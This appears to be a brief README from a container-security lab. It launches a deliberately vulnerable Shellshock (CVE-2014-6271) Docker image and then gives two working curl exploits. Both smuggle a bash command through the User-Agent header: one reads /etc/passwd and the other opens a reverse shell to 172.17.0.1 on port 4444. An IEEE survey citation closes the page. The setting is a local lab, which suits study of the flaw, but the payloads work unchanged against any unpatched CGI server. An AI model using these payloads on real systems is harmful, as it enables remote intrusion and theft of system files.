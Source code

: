 # Container Security

## Hacking 

### images 
Vulanrable image (shell-shoked)
```
docker run --rm -it -p 8080:80 vulnerables/cve-2014-6271
```

### exploits
Get password
```
curl -H "user-agent: () { : ;} ; echo; echo; /bin/bash -c 'cat /etc/passwd' " http://localhost:8080/cgi-bin/vulnerable
```
Reverse shell
```
curl -H "user-agent: () { : ;} ; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1' " http://localhost:8080/cgi-bin/vulnerable
```


# References
S. Sultan, I. Ahmad and T. Dimitriou, "Container Security: Issues, Challenges, and the Road Ahead," in IEEE Access, vol. 7, pp. 52976-52996, 2019, doi: 10.1109/ACCESS.2019.2911732.
